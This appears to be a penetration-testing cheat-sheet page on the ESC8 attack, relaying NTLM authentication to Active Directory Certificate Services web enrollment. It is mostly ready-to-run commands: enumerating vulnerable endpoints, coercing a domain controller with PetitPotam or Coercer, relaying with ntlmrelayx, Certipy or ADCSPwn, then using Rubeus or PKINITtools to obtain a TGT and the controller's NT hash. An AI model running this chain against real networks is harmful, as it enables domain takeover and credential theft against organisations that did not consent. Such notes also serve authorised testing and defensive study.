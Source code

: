 ```yaml
---
description: NTLM Relay to AD CS HTTP Endpoints
---
```


# ESC8

* [https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/](https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/)
* [https://habr.com/ru/company/deiteriylab/blog/581758/](https://habr.com/ru/company/deiteriylab/blog/581758/)
* [https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)




## Enumerate

Discover CES endpoints with certutil:

```
Cmd > certutil.exe -enrollmentServerURL -config CA01.megacorp.local\CA01
```

Discover CES endpoints with PowerShell:

```
PS > Get-CertificationAuthority | select name,enroll* | fl
```

Check a bunch of targets for the vulnerable endpoint:

```
$ for ip in `cat ~/ws/discover/hosts/ca.txt`; do curl -sSLkI -u 'MEGACORP\snovvcrash:Passw0rd!' --ntlm http://$ip/certsrv/certfnsh.asp | grep -e 401 -e 200 > /dev/null && echo "[+] $ip" || echo "[-] $ip"; done
```




## Exploit



### ntlmrelayx

* [https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [https://github.com/fortra/impacket/pull/1101](https://github.com/fortra/impacket/pull/1101)
* [https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server --adcs [--template VulnTemplate]
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
PS > .\Rubeus.exe asktgt /user:DC1$ /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```



### PKINITtools

* [https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
* [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)
* [https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099](https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099)

Backup original `httpattack.py` and copy one from the toolkit with a modified domain name and a template if needed (`DomainController` is by default, but also one may use `KerberosAuthentication`):

```
$ sudo cp /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak
$ subl ntlmrelayx/httpattack.py
$ sudo cp ntlmrelayx/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```

Perform the relay attack, request the TGT via PKINIT and get the NT hash based on U2U Kerberos extension:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 gettgtpkinit.py megacorp.local/'DC1$' -cert-pem cert.pem -key-pem privatekey.pem dc1.ccache
$ KRB5CCNAME=dc1.ccache python3 getnthash.py megacorp.local/'DC1$' -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```

Revert the original `httpattack.py`:

```
$ sudo mv /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```



### Certipy

Prepare for the relay attack:

```
$ certipy relay -ca 192.168.1.12 -template DomainController
```



### ADCSPwn

- [https://github.com/bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)

{% embed url="https://youtu.be/W9pUCVxe59Q" %}

Start a relay server:

```
PS > .\ADCSPwn.exe --adcs CA01.megacorp.local
```

Coerce the authentication, e. g. via [Coercer](https://github.com/p0dalirius/Coercer):

```
$ coercer -u snovvcrash -p 'Passw0rd!' -wh VICTIM01 -wp 8080 -t 192.168.1.11
```

